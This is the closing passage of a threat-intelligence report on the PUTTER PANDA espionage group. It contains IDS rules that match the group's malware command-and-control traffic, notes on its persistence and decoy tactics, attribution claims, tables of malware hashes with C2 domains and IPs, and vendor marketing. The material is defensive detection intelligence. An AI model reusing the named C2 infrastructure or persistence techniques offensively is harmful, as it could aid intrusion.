- alert tcp $HOME NET any -> $EXTERNAL NET any ( \ msg: "CrowdStrike PUTTER PANDA HTTPCLIENT Request 2"; \ flow:to server, established; \ content: "/Microsoft/errorpost"; http uri; \ content: "/default.asp?tmp="; within: 35; http_raw_uri; \ classtype: trojan-activity; metadata: service http; \ sid: 171400103; rev: 20140401; )
- alert tcp $HOME NET any -> $EXTERNAL NET any ( \ msg:"CrowdStrike PUTTER PANDA HTTPCLIENT Request 3"; \ flow:to server, established; \ content: "/MicrosoftUpdate/GetUpdate/KB"; http uri; \ content: "/default.asp?tmp="; within: 35; http_raw_uri; \ classtype: trojan-activity; metadata: service http; \ sid: 171400104; rev: 20140401; )

alert tcp $HOME NET any -> $EXTERNAL NET any ( \ msg: "CrowdStrike PUTTER PANDA HTTPCLIENT Request 4"; \ flow:to server, established; \ content: "/Microsoft/update"; http uri; \ content: "/debug"; http raw uri; within: 20; \ content: "/default.asp?tmp="; within: 30; http_raw_uri; \ classtype: trojan-activity; metadata: service http; \ sid: 171400105; rev: 20140401; )

- alert tcp $HOME NET any -> $EXTERNAL NET any ( \ msg:"CrowdStrike PUTTER PANDA HTTPCLIENT Request 5"; \ flow:to server, established; \ content: "/MicrosoftUpdate/GetFiles/KB"; http uri; \ content: "/default.asp?tmp="; within: 35; http_raw_uri; \
classtype: trojan-activity; metadata: service http; \ sid: 1971400106; rev: 20140401; )
alert tcp $HOME NET any -> $EXTERNAL NET any ( \ msg: "CrowdStrike PUTTER PANDA HTTPCLIENT Request 6"; \ flow:to server, established; \ content: "/MicrosoftUpdate/WWRONG/KB"; http_uri; \ content: "/default.asp?tmp="; within: 35; http_raw_uri; \ classtype: trojan-activity; metadata: service http; \ sid: 171400107; rev: 20140401; )


#### TTPS

In addition to the indicators described above, PUTTER PANDA have some distinct generic TTPs:

- Distinctive connectivity checks to www.google.com
- Use of the HashData API to derive key material for authentication and encryption
- Use of the ASEP registry key HKCU\Software\Microsoft\Windows\CurrentVersion\Run
- Deployment of space industry-themed decoy documents during malware installations


### CONCLUSION

PUTTER PANDA are a determined adversary group who have been operating for several years, conducting intelligence-gathering operations with a significant focus on the space sector. Although some of their tools are simplistic, taken as a whole their toolset provides a wide degree of control over a victim system and can provide the opportunity to deploy additional tools at will.

Research presented in this report shows that the PUTTER PANDA operators are likely members of the 12th Bureau, 3rd General Staff Department (GSD) of the People's Liberation Army (PLA), operating from the unit's headquarters in Shanghai with MUCD 61486. Strategic objectives for this unit are likely to include obtaining intellectual property and industrial secrets relating to defense technology, particularly those to help enable the unit's suspect mission to conduct space surveillance, remote sensing, and interception of satellite communications. PUTTER PANDA is likely to continue to aggressively target Western entities that hold valuable information or intellectual property relevant to these interests.

The detection and mitigation guidance given in this report will help to minimize the risk of a successful compromise by these actors, and future CrowdStrike reports will examine other elements of the PUTTER PANDA toolset.


#### APPENDIX 1: 4H RAT SAMPLE METADATA

| MD5 HASH | BUILD TIME | C2 |
| --- | --- | --- |
| a76419a2fca12427c887895e12a3442b | 11/06/2007 13:55 | radio.gamemuster.com |
| bf3d4cfee3e2d133ea73eda61fa534eb | 22/10/2007 06:46 | chat.gamemuster.com |
| 4e11af053ff535873fa750c78f618340 | 25/10/2007 08:03 | qiqi.t008.net |
| 54cdd6b60c940b389ccaa6263401c18e | 09/11/2007 07:06 | gis.tensins.net |
| 42e21681754c60ab23d943cd89e9187d | 09/11/2007 07:31 | vivian.t008.net |
| 11eb5246e237edd54a98147ed1986bc8 | 19/11/2007 14:34 | halloween.bmwauto.org |
| 2111622fe5d058ec14e3081c039de739 | 21/11/2007 13:29 | www3.cbssrayli.com |
| e2ec95f80c12b252ccd00df60ea81024 | 05/12/2007 07:31 | jamstec.tensins.net |
| 3e0416a426a02de5335d9a2c808054fc | 05/12/2007 07:42 | sunny.tensins.net |
| 6ba850fac8785e902402b325d1579881 | 12/12/2007 14:50 | deb.vssigma.com |
| 5b5da818513874b32c48c841208bc9d0 | 14/12/2007 08:06 | news.feiloglobe.com |
| 6e2dc6b0a6bed8fc62f3b649e6099818 | 18/12/2007 07:06 | chat.feiloglobe.com |
| 42fa42472ebf01b4fbc82d2b16a889a0 | 20/12/2007 07:07 | rj.cbssrayli.com |
| 9c88d2c223c700b47e3e666948002ce6 | 20/12/2007 07:11 | www5.cbssrayli.com |
| 99cf0359c425b5123a572fcef97ea8f4 | 27/12/2007 09:40 | chat.feiloglobe.com |
| d1734c5e06e05b884b69f59566bd36ad | 27/12/2007 12:07 | qiqi.t008.net |
| decc69ead3ed844ea8fab6c1c1b1f463 | 27/12/2007 12:14 | chat.gamemuster.com |
| 3459bc37967480dee405a5ac678b942d | 02/01/2008 07:53 | resell.siseau.com |
| 5e94034804125cf7358a2dbe2939a71c | 08/01/2008 13:07 | sports.feiloglobe.com |
| 5abe124298be1b4728a277939544d0a3 | 14/01/2008 12:39 | sports.feiloglobe.com |
| c2d350c98408e861edfc8fd1f97c3546 | 15/01/2008 07:25 | globe.t008.net |
| 15cae06fe5aa9934f96895739e38ca26 | 24/01/2008 15:21 | tkcht.checalla.com |
| 02f926acac9afbe3ccf13248ede5c1b3 | 19/03/2008 13:40 | wins.windowsupdote.net |
| c199533f978a6645fac38ac3be627868 | 21/03/2008 07:31 | sports.tensins.net |
| 6631815d4ab2a586021c24e02e5cc451 | 01/04/2008 16:01 | great.vssigma.com |
| 5425f69a977f4385ffd26b2e09afcc17 | 02/04/2008 07:38 | news.feiloglobe.com |
| 5bc8bdcf74107467fa0c7d96fe494db6 | 09/04/2008 09:13 | survey.ctable.org |
| 64311f8eeeccbd2453f92f0d1b63029c | 09/04/2008 09:13 | survey.ctable.org |
| 73ca399985791e8041b0772d65ba70fd | 09/04/2008 09:13 | survey.ctable.org |
| 569580e58ab5239e140fc88e145a30e3 | 23/04/2008 15:15 | ilime.raylitoday.com |
| b6f201184cad06faba5ad58950ee970d | 05/05/2008 16:56 | temp.renewgis.com |
| fbbc8c66a57f1622104fb00beed2d4cb | 23/10/2008 08:17 | 210.7.26.67 |
| ab3a49ef60948ccb1ee3cf672d6891c5 | 03/12/2008 08:00 | 140.113.241.33 |
| 8410f8f773cc19d7fbfd7e065b761ae7 | 04/12/2008 07:16 | 59.120.168.199 |
| d43c93228fc1ebd2c8e985e96f808a12 | 04/12/2008 07:23 | 59.120.168.199 |


| 6d7bdc024eb0b9aee72c49ee88aa41d2 | 11/05/2010 07:23 | 61.34.97.69 |
| --- | --- | --- |
| 33783a855618d3ffb44907bd77cf202e | 13/05/2010 15:33 | 210.16.204.170 |
| 3150af8e5358c12c1e9db8f4392fb990 | 01/06/2010 14:53 | 221.161.158.1 |
| dc58cdd0500cad7d9360aa96bbdd3b98 | 01/06/2010 14:53 | 221.161.158.1 |
| a6fea7c6305ecda36c5b9ccccd21f585 | 21/06/2010 14:34 | hide.konamidata.com |
| d6ae3fcbaff2a71f251ca81236a6c233 | 24/06/2010 13:29 | 202.152.165.221 |
| bf9d6675eed78e3a5af56d8bb0622107 | 14/07/2010 03:07 | 61.74.190.14 |
| 10906ede324051cccbca2a60bcaa25c1 | 04/08/2010 13:41 | drizl.konamidata.com |
| 37287fa4b33a1c3913daedcde5557c99 | 04/08/2010 13:41 | 173.231.36.139 |
| 594c297566407898c84be5183adc9766 | 04/08/2010 13:41 | server.ics-no.org |
| 76f5d45db6452fac59d5fbad3ff03d65 | 04/08/2010 13:41 | west.ics-no.org |
| 8eccfc6b84a70ae91e0ba128537ee490 | 04/08/2010 13:41 | 173.231.36.139 |
| 9684b36b46561dd1763cc4f9402eaf37 | 04/08/2010 13:41 | 173.231.36.139 |
| 24676f34692e70d6d58bb337813f4550 | 13/08/2010 07:47 | youth.konamidata.com |
| 90410b7422dd88 | 19/08/2010 08:15 | frag.succourtion.org |
| cfd1a689c21c623325 |  |  |
| 5e3eaca3806769836c3ad9d46a209644 | 14/09/2010 09:30 | 140.112.19.195 |
| 16a4198d4c0b01b42b505d2babb3c821 | 14/09/2010 17:41 | 219.253.24.100 |
| 37905b21d2d1b6fdf60a93bb5b01e9f9 | 16/09/2010 07:08 | ftp.dnstrans.proxydns.com |
| 222d59b353b1df9375ba85cc7042cd26 | 17/09/2010 08:55 | 61.78.75.96 |
| dc5001d732a80552b032e35ce18572f1 | 20/09/2010 07:55 | 134.129.140.212 |
| ea7bdf2e5832cdde7d6a979584c9c574 | 21/09/2010 13:37 | 222.107.91.130 |
| 8e2657e004c3ef29266e01cab41df78d | 25/09/2010 07:09 | 134.129.140.212 |
| 057e912732e5c98540dba1d76440ccca | 27/09/2010 03:08 | 210.200.19.99 |
| 85a41973867d83b94798e29fda4a3677 | 28/09/2010 15:24 | 219.253.24.92 |
|  |  | 67.42.255.50 |
| e0037673e8865c33ad6562b44c02099b | 08/11/2010 02:24 | 219.253.24.100 |
|  |  | 219.253.24.92 |
| a5dfba7399dfe1b581838b97f6becff9 | 12/02/2011 07:20 | 204.12.192.236 |
| 145a58b6d55df940dc7e7233201b79bb | 16/02/2011 14:15 | vista.konamidata.com |
| 6f8ecd6aea161e081356a468fc710b68 | 23/02/2011 14:03 | 173.252.207.51 |
| 9cd5f4a00984eab51e3f615bf3e1e5d3 | 23/02/2011 14:09 | 121.157.104.122 |
| b3948022fb3624971bee68e5c2e6da44 | 09/03/2011 17:51 | 173.252.205.56 |
| 3fd2dfa0c1658fbd2f77dd11731108c2 | 23/03/2011 13:37 | download.eldaedu.us |
| 2a4d65825a278ce978744a57a36793aa | 11/04/2011 03:28 | 222.107.91.130 |
| bd047b6756a813f7f66b7fac837224c5 | 15/04/2011 07:19 | 208.110.66.71 |
| 0b7d8d1fc28f65ebee6d61fb477e28b6 | 22/04/2011 08:37 | toch.anfoundation.us |
| 4b86bdd4059576d75bbeb91ed3851928 | 21/06/2011 14:33 | once.ptkstore.com |
| ead400deb12928c03d6fc4731fe59232 | 11/07/2011 16:15 | 61.78.37.121 |
| 98f721d3d25adb1a8f88ccad287582ce | 20/03/2012 14:35 | google.hgcurtain.com |


#### APPENDIX 2: 3PARA RAT SAMPLE METADATA

| MD5 HASH | BUILD TIME | C2 |
| --- | --- | --- |
| 8a7bfeb0fe8e30d60c4c17b40871ebb2 | 19/12/2008 08:48 | orb.vssigma.com |
| d7b571ad08a6f704ff0dcc369c7ec4e6 | 14/03/2009 15:48 | web.t008.net |
| 92656d6028310a5be7ef887b094f45c3 | 14/12/2009 14:51 | web.creativezh.com |
| 035028bbdfaa88fb35cc4d4c65c56e54 | 04/05/2010 10:25 | sun.succourtion.org |
| 12cad8963722580a55efcff6ceb96c3b | 04/05/2010 10:25 | sun.succourtion.org |
| 198ebc479502b0dc4232b1bf9710385d | 04/05/2010 10:25 | sun.succourtion.org |
| e7837e464ef72d0115076ffbbf1cbf23 | 17/05/2010 07:59 | control.konamidata.com |
| b346d7c6518ba62ddfdc6c070fbf421e | 29/06/2010 14:20 | cti.anfoundation.us |
| cfffee14a4b644ba69b247ac8db887ff | 30/06/2010 13:53 | guest.anfoundation.us |
| e27d2773c123596b23dabd9742f23b7b | 13/07/2010 08:14 | pl.anfoundation.us |
| 5bdd6c6a89a7777b88a04958d308d7a2 | 17/09/2010 06:06 | ardo.namcodat.com |
| a0ce34f68d65848a873bd8e6fa3a7b41 | 17/09/2010 06:06 | ardo.namcodat.com |
| 92965138a6a2f64b0290fd46f1fa9c9e | 28/09/2010 06:25 | dnke.succourtion.org |
| d07257cd8debd5a09edcd7a88b4f4149 | 19/10/2010 13:01 | lais.rwchateau.com |
| 6634855afd81405bfa42d49ce3d2dd90 | 06/04/2012 05:09 | www.psactel.com |
| 6b638ef5b146aadf7368aef48eb538d7 | 28/09/2012 19:15 | www.hgcurtain.com |
| b74e44550155f97840176b210befaac2 | 02/11/2012 03:44 | southern.siue.edu.myfw.us |
|  |  | sports.graceland-siu.org |
| 4225ae0be4099a86849d6ae0522ce798 | 06/11/2012 14:06 | southern.siue.edu.myfw.us |
| 5b8315e92122464e9d9d8258c8db3dd3 | 19/12/2012 22:38 | tnv.cultivr.com |
| b4d42df0af6923ea02763c8a2501540c | 21/12/2012 01:01 | tps.cultivr.com |
|  |  | sports.graceland-siu.org |
| 5c60fa65cb19f867b34a8e3af0222389 | 15/03/2013 22:35 | lais.rwchateau.com |
| 04b6fd7c5e12f4291472cce447d5a3fb | 22/04/2013 22:43 | maya.cultivr.com |
| bc4e9dad71b844dd3233cfbbb96c1bd3 | 18/07/2013 22:43 | nsc.adomhn.com |
| 43492ca6b1a420b682ab58e8a7d46d26 | 12/05/2012 07:13 | mail.hfmforum.com |


### APPENDIX 3: PNGDOWNER SAMPLE METADATA

| MD5 HASH | BUILD TIME | C2 DOMAIN |
| --- | --- | --- |
| 0073194788c491e17460d1ee66f9c1ad | 09/10/2011 02:21 | update.konamidata.com |
| 1429beb46f97a6eaf9bbdf0e470f7d57 | 09/10/2011 02:21 | update.konamidata.com |
| 40ad9ba37ef29ecb9e2183ad45e99d7b | 09/10/2011 02:21 | update.konamidata.com |
| 8e8b2b32dd3048b729d32248b5ea939f | 09/10/2011 02:21 | update.konamidata.com |
| a98f9507ec79a93d2877182f39b7eb69 | 09/10/2011 02:21 | update.konamidata.com |
| b54e91c234ec0e739ce429f47a317313 | 09/10/2011 02:21 | update.konamidata.com |
| b871087f7715e9d1ec3884962ee37067 | 09/10/2011 02:21 | update.konamidata.com |
| bdf62f5ed65acd4cda6478120069740f | 09/10/2011 02:21 | update.konamidata.com |
| f10b7c90fcd450baec0396adb4c5ea90 | 09/10/2011 02:21 | update.konamidata.com |
| f7908bbd22912f1fd5dc4ee99d24d464 | 09/10/2011 02:21 | update.konamidata.com |
| 2f1ca6394899b8fb6ac1eb9f1e352c93 | 09/10/2011 02:22 | update.konamidata.com |
| 9808e9a4735e81b172b5cb72142b5ec4 | 09/10/2011 02:22 | update.konamidata.com |
| fea7b99aa54da7cc2d6b925f3beaed2a | 09/10/2011 02:22 | update.konamidata.com |
| 1fa4b7b8ba7bff7d404cba53f8c6c222 | 09/10/2011 02:23 | update.konamidata.com |
| 6b0b066eb7bd29c3a0f984c8b487e6be | 09/10/2011 02:23 | update.konamidata.com |
| 6f4c3f3778fa0def410fda7e5d5570dc | 09/10/2011 02:23 | update.konamidata.com |
| c4898f7b43db892e96dda9c06ba9205f | 09/10/2011 02:23 | update.konamidata.com |
| 063153e5359953a6a3a20b440ddfcf66 | 09/10/2011 02:24 | update.konamidata.com |
| 0e0182c9481b007e6564d72c99b05ad8 | 09/10/2011 02:24 | update.konamidata.com |
| 3fcb85d746313dfddd108720eff6dc82 | 09/10/2011 02:24 | update.konamidata.com |
| 43e7fb391fe1744965d31b280be2ddc7 | 09/10/2011 02:24 | update.konamidata.com |
| 4ec7ee0915d0c1cece1ffafd0e72bd76 | 09/10/2011 02:24 | update.konamidata.com |
| 9e258fe2696e4fe2470015f79b90f183 | 09/10/2011 02:24 | update.konamidata.com |
| f52a15bac250f393cdaf40b99a590c16 | 09/10/2011 02:24 | update.konamidata.com |
| 6c93ccdd6d3140c2c338f968273ac680 | 09/10/2011 03:43 | update.konamidata.com |
| 1c42e07a5f344bb107715f4ce864c452 | 11/10/2011 08:29 | update.konamidata.com |
| 3f9973cd231b27b7efca490f5a176508 | 11/10/2011 08:29 | update.konamidata.com |
| 710143e723eec132df5bf2d11d1b1a97 | 11/10/2011 08:29 | update.konamidata.com |
| 76a5102f8fa1bef7689c0c20e447f28b | 11/10/2011 08:29 | update.konamidata.com |
| a0559d54b1eef139d199221b08e3deee | 11/10/2011 08:29 | update.konamidata.com |
| b72f3bd15cd351a75307d9f8e1fa0618 | 11/10/2011 08:29 | update.konamidata.com |
| bd7779f11e6b679aba43e1ca5313351a | 11/10/2011 08:29 | update.konamidata.com |
| e59a95dd5f23a8733f31b8a43b058548 | 11/10/2011 08:29 | update.konamidata.com |
| 08c7b5501df060ccfc3aa5c8c41b452f | 24/10/2011 08:25 | update.konamidata.com |
| 2244ea9c999576928b6833845877a397 | 20/12/2011 14:11 | update.konamidata.com |


| 22f7b9afde6a21fc275130a41076bfe4 | 20/12/2011 14:11 | update.konamidata.com |
| --- | --- | --- |
| 057c9978749095d8dfdcfefe2a04d111 | 08/02/2012 13:23 | update.konamidata.com |
| 2392d47e7a357d77bcdb260ad9f4695a | 08/02/2012 13:23 | update.konamidata.com |
| 67408fbec99d3d06b07b44f25c7ecea5 | 08/02/2012 13:23 | update.konamidata.com |
| 1b140bbd037bb909ecb9dcb71b9ce9f4 | 10/02/2012 03:26 | update.konamidata.com |
| 8a35afbfeac65d87448bd37d7d0da072 | 10/02/2012 03:26 | update.konamidata.com |
| 1ee30f7ecaf25af38cf684ca56b75cf2 | 10/02/2012 03:27 | update.konamidata.com |
| 9ac3b5966f65e21e27c10fd8d2e7152e | 16/02/2012 07:43 | update.konamidata.com |
| a97392a796dae335d918cbdf968cfde7 | 16/02/2012 07:43 | update.konamidata.com |
| d427d0192828647541ca04d5ae0d77b7 | 16/02/2012 07:43 | update.konamidata.com |
| 223b5298db9a871616a0cdc92c90dee8 | 23/02/2012 03:19 | update.konamidata.com |
| 3b31982141daedda89ceecf4b5790454 | 23/02/2012 03:19 | update.konamidata.com |
| f29a966426bb91154cece807ee778b70 | 27/02/2012 13:06 | update.konamidata.com |
| 304637b2cd1d42d9ffd01d885862e330 | 01/03/2012 14:10 | update.konamidata.com |
| b7db2fdd3b047639b7a28afc4ff4fbfd | 01/03/2012 15:11 | update.konamidata.com |
| 2726087f3c7f0fb808e1580735b2e964 | 01/03/2012 17:06 | update.konamidata.com |
| e87ef0f156a48902019ff43ae22c6ba9 | 02/03/2012 04:33 | update.konamidata.com |
| f5c80092c3d637b5618daf3de1e30be4 | 02/03/2012 12:04 | update.konamidata.com |
| 270508e83b732f250239ffd5961458f9 | 02/03/2012 14:28 | update.konamidata.com |
| 68c56b0e50cda3b8d7af72df06e8f0fc | 02/03/2012 14:28 | update.konamidata.com |
| 872e1e5f826d0bf0ff476ebe6355665f | 02/03/2012 14:28 | update.konamidata.com |
| facad2d2063ed4016cd5f38b83c5d439 | 02/03/2012 14:28 | update.konamidata.com |
| fe3cdc4b22d30d07866d79495a38bd19 | 05/03/2012 14:18 | update.konamidata.com |
| aa093dac070226f877033480d2a117ad | 06/03/2012 11:00 | update.konamidata.com |
| e3433894a914826773ace894d1fa1d5f | 06/03/2012 11:00 | update.konamidata.com |
| 3fae873e7a4b96c548c60df211207abe | 06/03/2012 13:56 | update.konamidata.com |
| 43e97d338a226c5112d07090309feae8 | 06/03/2012 13:56 | update.konamidata.com |
| 5ce2dea534c1808a1da8c02946595cc0 | 06/03/2012 13:56 | update.konamidata.com |
| 5f652d20c5979d3af1c78e053530c247 | 06/03/2012 13:56 | update.konamidata.com |
| 6ff7acc178eb6ae0f75d2f6f989c468d | 06/03/2012 13:56 | update.konamidata.com |
| e57ccb9ce5e455d29b24d69a4b58040e | 06/03/2012 13:56 | update.konamidata.com |
| 2fc22095eebd5185aff0803b42027760 | 14/03/2012 10:51 | update.konamidata.com |
| 5f51e217da8446f299e3f69cf6afb5b0 | 14/03/2012 10:51 | update.konamidata.com |
| 6a1d0e84e780145581dd8be9b221a475 | 14/03/2012 10:51 | update.konamidata.com |
| 720e8ce8f8a776c76839417a453d6664 | 14/03/2012 10:51 | update.konamidata.com |
| 80618d4d7cafbc04a116409dbb292d13 | 14/03/2012 10:51 | update.konamidata.com |
| d7a6f573cb417a3de13f65827ac045b1 | 14/03/2012 10:51 | update.konamidata.com |
| ecef8b506ea561c8ebf6dd99e6adef2a | 14/03/2012 10:52 | update.konamidata.com |
| c16b7efd603f2ae87ba52511d4e18897 | 27/03/2012 15:47 | update.konamidata.com |


| de05fbe2a51bda0ca1e235f38ca0af5f | 27/03/2012 15:47 | update.konamidata.com |
| --- | --- | --- |
| 2db413f090b694aa6b6ef19ec2b53b1b | 07/06/2012 13:07 | app.stream-media.net |
| 9a3b80702f49c6eb8a2354225d4207b1 | 07/06/2012 13:24 | app.stream-media.net |
| 8deec3498088078a64b53dc0693ebff9 | 02/08/2012 13:57 | app.stream-media.net |
| d98b4d8d18d4aa60f989fdbe464d0914 | 03/08/2012 08:38 | <Not Configured> |
| 6e2546be1b20fac2b3f25be4f01dd8f7 | 03/08/2012 11:40 | <Not Configured> |
| e37bc2d4f6459e107505e9b171ddc944 | 03/08/2012 11:55 | <Not Configured> |
| 475d2390a332dd275b8613bcb41ad3cb | 05/08/2012 13:01 | <Not Configured> |
| b5f37cce28efa7b9f71686eb42e4d954 | 05/08/2012 13:06 | <Not Configured> |
| 0e45952c1e7fb40662f9caf13953e4ca | 13/08/2012 00:58 | app.sst1.info |
| 3133142c7394b2918f01734e574dbfba | 13/08/2012 01:00 | app.sst1.info |
| 997e7566f2c3b1008bc77de791d4aac1 | 13/08/2012 01:42 | app.sst1.info |
| 4d87b8c92afc599ccaea7b06be3f4250 | 13/08/2012 02:16 | apps.anyoffice.info |
| dea5c8f4acac0391f5ee7713e76fd043 | 13/08/2012 02:21 | apps.anyoffice.info |
| f57e98f01f0258885f8a5d1b808851dc | 13/08/2012 02:27 | <Not Configured> |
| 3eaa365102a0291bbe07da4436d8df42 | 13/08/2012 08:09 | apps.anyoffice.info |
| 038d64a04937be3873183083bac7a07b | 12/09/2012 03:11 | app.jj-desk.com |
| 4b92f32e875ccddb09e4eae613e77f0b | 18/09/2012 16:11 | app.jj-desk.com |
| 3fb4e08bb7e5e9700d99abbe90619fa7 | 19/09/2012 07:23 | app.jj-desk.com |
| 35d508af6534b2aea7b4dfaec85f8b50 | 13/11/2012 13:13 | <Not Configured> |
| 50e1e1d5fddc84fa00faa26e50bd17e6 | 15/11/2012 03:26 | <Not Configured> |
| 2df62ca63be41ec6fab641f72084424a | 21/01/2013 15:22 | files.satelliteclub.info |
| bdf512d5eef853d07c0db345345e3db7 | 21/01/2013 15:56 | files.satelliteclub.info |
| 6dc5d006eafa5e135ec89fa456060b58 | 22/01/2013 12:45 | tools.space-today.info |
| 840f6d69893d70547762ef4309024d40 | 22/01/2013 12:45 | tools.space-today.info |
| 600197a8de5fa5b4eb63301ab8173688 | 23/01/2013 06:47 | www.bibleevidence.com |
| 2357372b80077d6e5c27cc337a94ca3c | 23/01/2013 12:16 | www.artistryinprint.com |
| 8f8b47eec7e67ea60cc29f3d44266ee3 | 24/01/2013 08:33 | www.diam.unina2.net |
| 1e38439f1316b6e018b391e39ba5021f | 30/01/2013 13:51 | <Not Configured> |
| a585734102640c6a7d3cba4630dd2b55 | 20/03/2013 13:50 | kind.anyoffice.info |
| 687424f0923df9049cc3a56c685eb9a5 | 14/11/2013 13:10 | login.stream-media.net |


### APPENDIX 4: HTTPCLIENT SAMPLE METADATA

| MD5 HASH | BUILD TIME | C2 |
| --- | --- | --- |
| 289a27727f1b1af8b2e49fd4d987f36b | 12/03/2012 19:25 | root.awebers.com |
| 3db2a93d228d332b095379f1e40650ef | 09/04/2012 13:05 | tech.decipherment.net |
| 2f450a095a45a243c618ba05361d8e0c | 02/08/2012 07:36 | tech.decipherment.net |
| 98eb97d0b709a5b0569201fb84e77c27 | 02/08/2012 08:30 | file.it-bar.net |
| 64b5f6d1ecfb27bf832848609dff90fe | 03/08/2012 11:26 | tech.decipherment.net |
| a17bca94b20bb84b82eba6cb59faf01 | 05/08/2012 12:50 | tech.decipherment.net |
| 9d5fdd186eddd3c766ff5ac98c2b27ef | 05/08/2012 12:51 | tech.decipherment.net |
| d7bdbca88ef9257c3d41cca50593e700 | 05/08/2012 12:54 | tech.decipherment.net |
| 830e19b54647db15b820ab24fab5aa31 | 05/08/2012 12:56 | tech.decipherment.net |
| a6ba741ab7d904a2fbdfa5fe57256bb1 | 05/08/2012 12:56 | tech.decipherment.net |
| 2de8b6bb8fa9d92ec315477491391a1f | 06/08/2012 02:16 | tech.decipherment.net |
| 202133f65ddd420d04b178d9897efe86 | 06/08/2012 13:24 | tools.ics-no.org |
| 8e4e775a95d23e5ae1afc6f4fbc3c920 | 06/08/2012 13:24 | tools.ics-no.org |
| bca85aa92492af2e836ee26f3a0a4e62 | 08/08/2012 01:33 | tech.decipherment.net |
| 48e58424be47d0c68fca63f15cea3d25 | 29/08/2012 08:09 | download.jj-desk.com |
| 544fca6eb8181f163e2768c81f2ba0b3 | 12/10/2012 09:37 | file.anyoffice.info |
| ef9df8fad4a02ec8c8c4bf8408585400 | 24/01/2013 07:04 | queen1.xafsl5.org |
| 6dfbfbce64510aaee3094da0aefe8a9b | 02/07/2013 13:23 | down72.xafsl5.org |
| e35de3008e9027d487dd0a598f651155 | 14/11/2013 13:21 | tool.sst1.info |
| 58744dfbc581baa3d19853fe6388106d | 19/11/2013 14:38 | member.satelliteclub.info |


CrowdStrike Falcon Intelligence portal provides enterprises with strategic, customized, and actionable intelligence. Falcon Intelligence enables organizations to prioritize resources by determining targeted versus commodity attacks, saving time and focusing resources on critical threats. With unprecedented insight into adversary tools, tactics, and procedures (TTPs) and multi-source information channels, analysts can identify pending attacks and automatically feed threat intelligence via API to SIEM and thirdparty security tools.

Access to CrowdStrike Falcon Intelligence is geared toward all levels of an organization, from the executivewho needs to understand the business threat and strategic business impact, to the front-line securiyt professional struggling to !ght through an adversary's attack against the enterprise.

CrowdStrike Falcon Intelligence is a web-based intelligence subscription that includes full access to a variety of feature sets, including:

- · Detailed technical and strategic analysis of 50+adversaries' capabilities, indicators and tradecra!, attribution, and intentions
- Customizable feeds and API for indicators of compromise in a wide variety of formats
- · Tailored Intelligence that provides visibility into breaking events that matter to an organization's brand,

Incorporate Actionable Intelligence Feeds into your existing enterprise security infrastructure to identify advanced attackers speci!c to your organization and industry

Rapidly integrate Falcon Intelligence into custom work"ows and SEIM deployments with a web-based API

Quickly understand the capabilities and artifacts of targeted attacker tradecra# with In-depth technical analysis

Gain visibility into breaking events that matter to an organization's brand, infrastructure, and customers Interact with the Intelligence team and leverage customized Cyber Threat Intelligence feedback during

Quarterly Executive Brie!ngs Provide malware samples and receive customized and actionable intelligence reporting

Access the Adversary Pro!le Library to gain in-depth information into 50+ adversary groups, to include capabilities and tradecra# and tradecraft


#### CROWDSTRIKE FALCON HOST

CrowdStrike Falcon Host is an endpoint threat detection and response product that identifies unknown malware, detects zero-day threats, and prevents damage from targeted attacks in real-time. Falcon Host is comprised of two core components, the cloud-based management console and the on-premises host-based sensor that continuously monitors threat activity at the endpoint to prevent damage in real-time.

Falcon Host leverages a lightweight kernel-mode sensor that shadows, captures, and correlates lowlevel operating system events to instantly identify the adversary tradecraft and activities through Stateful Execution Inspection (SEI) at the endpoint and Machine Learning in the cloud. As opposed to focusing on malware signatures, indicators of compromise, exploits, and vulnerabilities, Falcon Host instead identifies mission objectives of the adversary leveraging the Kill Chain model and provides realtime detection by focusing on what the attacker is doing, as opposed to looking nfor a specific, easily changeable indicator used in an attack.

Without performing intrusive and performanceimpacting scans of the system, Falcon Host's highly efficient real-time monitoring of all system activity is the only security solution that provides maximum visibility into all adversary activities, including Adversary-in-Motion: reconnaissance, exploitation, privilege escalation, lateral movement, and exfiltration.

Falcon Host delivers insight into past and current attacks not only on a single host, but also across devices and networks.

#### FALCON HOST KEY FEATURES

- · Endpoint threat detection and response solution
- Cloud-managed application with easily deployed sensors for Mac & Windows
- Kernel-mode sensors requires no reboot on updates. Less than 2MB footprint executable
- · Detects attacks based on adversary activity
- Integrates with existing security architecture and SIEM tools through Falcon Host APIs

#### TECHNOLOGY DRIVERS: STATEFUL EXECUTION INSPECTION

Stateful Execution Inspection (SEI) tracks execution state and links together various stages of the kill chain, from initial code execution to data exfiltration.

CrowdStrike's Real-time Stateful Execution Engine performs inspection and analysis to understand the full context of a cyber attack. SEI is critical to understanding the entire attack life cycle and preventing the damage from advanced malware and targeted attacks. Existing security technologies that focus solely on malware signatures, incidators of compromise, exploits, and vulnerabilities fail to protect against the majority of attacks as they are blind to the full scope of adversary activity.

#### BENEFITS

- Identify and protect against damage from determined attackers who are undetected by existing passive defense solutions
- Understand who is attacking you, why and what they want to steal or damage
- Alert and stop exfiltration of sensitive information from compromised machines Protect remote users when they are outside of the corporate network
- Protect remote users when they are outside of the corporate network
- · No on-premises equipment needed, reducing overall total cost of ownership


#### About CrowdStrike

CrowdStrike is a global provider of security technology and services focused on identifying advanced threats and targeted attacks. Using big-data technologies, CrowdStrike's next-generation threat protection platform leverages real-time Stateful Execution Inspection (SEI) at the endpoint and Machine Learning in the cloud instead of solely focusing on malware signatures, indicators of compromise, exploits, and vulnerabilities. The CrowdStrike Falcon Platform is a combination of big data technologies and endpoint security driven by advanced threat intelligence. CrowdStrike Falcon enables enterprises to identify unknown malware, detect zero-day threats, pinpoint advanced adversaries and attribution, and prevent damage from targeted attacks in real time.

#### About CrowdStrike Services

CrowdStrike Services is a wholly owned subsidiary of CrowdStrike responsible for proactively defending against and responding to cyber incidents with pre and post Incident Response services. CrowdStrike's seasoned team of Cyber Intelligence professionals, Incident Responders, and Malware Researchers consists of a number of internationally recognized authors, speakers, and experts who have worked on some of the most publicized and challenging intrusions and malware attacks in recent years. The CrowdStrike Services team leverages our Security Operations Center to monitor the full CrowdStrike Falcon Platform and provide cutting-edge advanced adversary intrusion detection services. The full spectrum of proactive and response services helps customers respond tactically as well as continually mature and strategically evolve Incident Response program capabilities.


For more information on the intelligence provided in this report or on any of the 70+ actors tracked by the CrowdStrike Global Intelligence team, contact us at intelligence@crowdstrike.com

> To learn more about the CrowdStrike Falcon Platform or CrowdStrike Services, contact us at sales@crowdstrike.com.

> > www.crowdstrike.com | @CrowdStrike

